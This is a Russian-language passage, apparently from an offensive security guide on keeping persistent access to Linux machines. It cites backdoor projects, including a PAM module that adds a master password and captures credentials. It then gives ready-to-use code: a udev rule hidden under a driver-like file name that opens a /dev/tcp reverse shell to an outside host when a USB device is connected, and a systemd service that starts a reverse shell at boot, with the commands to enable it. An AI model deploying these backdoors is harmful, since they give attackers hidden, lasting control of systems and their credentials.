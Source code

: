 Например: https://github.com/n1nj4sec/pupy

### Внедрение бэкдоров модули аутентификации на основе PAM

**PAM (Pluggable Authentication Modules, подключаемые модули аутентификации)** — разделяемые библиотеки, используемые для
реализации произвольных методов аутентификации в виде единого API. Внедрение вредоносного модуля позволяет добавить
мастер-пароль и перехватить учетные данные.

Пример бэкдора: https://github.com/ociredefz/pambd/
#### Внедрение бэкдоров в драйверы
Для запуска бэкдора при подключении какого-либо устройства можно использовать каталог /etc/udev/rules.d/, в котором
хранятся правила для обработки событий устройств. Изменяя эти правила, можно переименовать устройство, настроить права
доступа к нему, но самое главное, что нас интересует — выполнить скрипт при подключении устройства.

  RSHELL="0<&196;exec 196<>/dev/tcp/192.168.0.177/9001; sh <&196 >&196 2>&196"
  echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee
  /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null

В таком случае при подключении к машине USB-устройства порт выполнится скрипт RSHELL для предоставления доступа вашей
машине в сети.

#### Внедрение бекдоров в службы автозапуска (использование systemd)

**systemd** — это системный инициализатор и менеджер служб для операционных систем Linux. Он является заменой для более
старой системы инициализации SysVinit и предоставляет целый набор функциональных возможностей для управления и контроля
запуска служб и процессов в Linux-системе.

Systemd также имеет ряд дополнительных функций, включая событийную систему, журналирование и мониторинг процессов,
управление сетевыми интерфейсами и сетевыми соединениями, управление контейнерами и многие другие.

Чтобы создать свой бэкдор в системе systemd, достаточно описать свой собственный сервис:

    [Unit]
    Description=Backdoor
    After=network.target ssh.service
    
    [Service]
    Type=simple
    PIDFile=/var/run/backdoor.pid
    ExecStart=sh -i >& /dev/tcp/192.168.0.177/9001 0>&1"
    Restart=always
    RestartSec=10
    
    [Install]
    WantedBy=multi-user.target

Расположить его в файле:

    /lib/systemd/system/backdoor.service
Запустить его командами:

    sudo systemctl enable backdoor.service
    sudo systemctl start backdoor.service